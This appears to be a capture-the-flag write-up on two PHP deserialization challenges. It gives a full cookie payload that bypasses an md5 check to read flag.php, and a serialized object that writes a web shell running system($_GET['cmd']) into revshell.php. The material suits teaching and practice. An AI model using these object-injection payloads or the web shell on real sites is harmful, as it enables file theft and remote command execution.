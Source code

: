 # free-as-in-beer ![c](https://img.shields.io/badge/solved-success)
### Analysis
Let's analyze the source code given to us in the page. We can clearly see that there is an unserialization of a cookie (looks sooooo bad) when the first 32 chars of the cookie named "todos" are equal to the md5 hash of the last 32 chars.
That is, the PHP code reads the input from the user with a GET, calculates the hash and concatenates it with the raw input, and then sets it as a cookie.

Moreover, we can notice a really interesting object called GPLSourceBloater with a magic method __toString() in it (looks even worse).

Knowing that we can try to bypass the hash condition, crafting our cookie, and modify the *source* parameter of the GPLSourceBloater object in order to read a specific file (we know that the flag is in flag.php).

### Exploit
This is the final paylod to insert as *todos* cookie: 

```760463360e4919ca238d1566fc26661fa:1:{i:0%3bO:16:"GPLSourceBloater":1:{s:6:"source"%3bs:8:"flag.php"%3b}}```.

Note: we must pass the md5 hash, than serialization of an array (because todos is a list of todo) and then our object.
![Alt text](./cookie_burp.PNG?raw=true "Title")

**flag{This_flAg_1s_really_fr33_a5_in_PhP}**

# 1024 ![c](https://img.shields.io/badge/solved-success)
### Analysis
### Exploit
```
O:7:"Ranking":3:{s:7:"ranking";s:34:"<?php echo system($_GET['cmd']);?>";s:7:"changed";b:1;s:4:"path";s:20:"./games/revshell.php";}
```
![Alt text](./result_1024.PNG?raw=true "Title")

**flag{never_deserialize_user_input!}**
